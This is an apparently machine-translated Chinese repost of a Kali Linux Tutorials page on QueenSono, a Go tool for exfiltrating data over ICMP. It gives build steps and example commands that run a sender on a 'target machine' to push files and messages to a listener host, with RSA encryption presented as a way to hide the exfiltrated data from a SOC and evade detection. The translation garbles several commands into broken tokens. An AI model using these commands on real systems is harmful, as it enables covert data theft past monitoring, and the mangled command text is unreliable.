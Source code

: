 # QueenoSno : Golang 二进制，用于使用 ICMP 协议进行数据过滤

> 原文：<https://kalilinuxtutorials.com/queensono/>

[![](img/5e7a1e409d0594681659cd660df4f31d.png)](https://1.bp.blogspot.com/-Pn1o3uFcvKY/YVBki_sMWKI/AAAAAAAAK-A/L5n_n83HSx4bbTJFZFfFHrtary5C5FhlACLcBGAsYHQ/s728/14805903.png)

QueenSono 工具只依赖于 ICMP 协议不受监控这一事实。这是很常见的。它也可以在具有基本 ICMP 检查(即频率和内容长度观察器)或使用强制网络门户(许多公共 Wi-Fi 在连接到 Wi-Fi(如机场 Wi-Fi)后使用它来验证用户)绕过验证步骤。尝试模仿 PyExfil(和其他软件),目标机器不需要安装 python(所以提供一个二进制文件会很有用)。

**安装**

*>从源代码安装二进制文件*

克隆存储库并在本地下载依赖项:

**git 克隆 https://github.com/ariary/QueenSono.git
make before . build**

要构建 ICMP 数据包发送器`**qssender**`:

**build.queensono-sender**

要构建 ICMP 数据包接收器`**qsreceiver**`:

**build.queensono-receiver**

**用途**

`qssender`是将 ICMP 数据包发送到监听器的二进制文件，因此它是您必须在目标机器上传输的二进制文件。

监听器在你的本地机器上吗(或者任何你能接收 icmp 信息包的地方)

使用`**--help**`可以找到二进制文件的所有命令和标志

**例 1:用“ACK”发送**

*>在这个例子中，我们要发送一个大文件，并在 echo 回复后确认数据包(ACK)的接收。*

![](img/27f63c1a3cc9e6535a4bfd3c4fde974a.png)

在本地机器上:

**$ QS receiver receive-l 0 . 0 . 0 . 0**-p-f received _ bible . txt

**解释**

在目标机器上:

**$ wget https://raw . githubusercontent . com/mxw/grmr/master/src/final tests/bible . txt #下载一个巨大的文件(以此为例)
$ qssender 发送文件-D2-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 92-s 50000 bible . txt**

**解释**

**例 2:发送无“ACK”**

*>在本例中，我们想发送一条消息，而不等待回应回复(这在目标防火墙过滤传入的 icmp 数据包的情况下很有用)*

![](img/36de6604fcb34932359e919170188277.png)

在本地机器上:

**$ qsreceiver 接收截断的 1 -l 0.0.0.0**

**解释**

在目标机器上:

**$ QS sender send“this isatest I want to send a string w/o waiting the echo reply”-D1-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 190-S1-N**

**例 3:发送加密数据**

*>在这个例子中我们要发送一条加密的消息。由于命令行可能被监听，我们使用非对称加密*

在本地机器上:

**$ QS receiver receive-l 0 . 0 . 0 . 0–加密**

**解释**

在目标机器上:

**$ qssender send“别担心，这封邮件是用公钥加密的。只有你能解密它"-D1-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 190 go . mod-S5-encrypt**

**关于加密**

RSA 加密用于对交换的数据保密。例如，通过基本分析或仅仅为了隐私，避免 SoC 查看交换了什么数据(或取证数据)可能是有用的。

但这是有代价的。选择非对称加密是因为加密密钥是在命令行上输入的(因此可以很容易地检索)。因此，我们用公钥加密数据。像这样，如果有人取回加密密钥，就不可能解密消息。但是公钥比私钥小，所以它 ***加密较小的消息*** 。还有， ***计算量大*** 。

另一点，由于我们想要限制数据大小/ping 请求(以避免检测、bug 等)，**仅在需要时使用加密** ***作为消息输出-大小将(应该)总是等于模数*** (密钥的一部分)的大小，后者很大。

[**Download**](https://github.com/ariary/QueenSono)